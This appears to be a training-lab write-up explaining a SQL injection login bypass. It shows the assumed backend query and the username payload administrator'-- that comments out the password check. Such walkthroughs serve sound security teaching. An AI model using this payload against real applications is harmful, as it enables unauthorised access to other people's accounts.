


## Lab: SQL injection vulnerability allowing login bypass

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

Before exploiting anything, try the obvious:

Username: administrator

Password: anything

→ Result: Login failed

This tells us:

We cannot guess the password directly
Another attack vector is needed → possible SQL Injection

The backend likely executes a query like:

SELECT * FROM users 
WHERE username = 'input_username' 
AND password = 'input_password';

User input is directly embedded into the SQL query → vulnerable to injection.

In the username field, enter:

administrator'--

Password: anything

The resulting SQL query becomes:

SELECT * FROM users 
WHERE username = 'administrator'--' 
AND password = 'anything';

What happens here:

-- starts a comment in SQL
Everything after it is ignored
The password condition is removed

So the query effectively becomes:

SELECT * FROM users 
WHERE username = 'administrator';

→ No password required, authentication bypassed.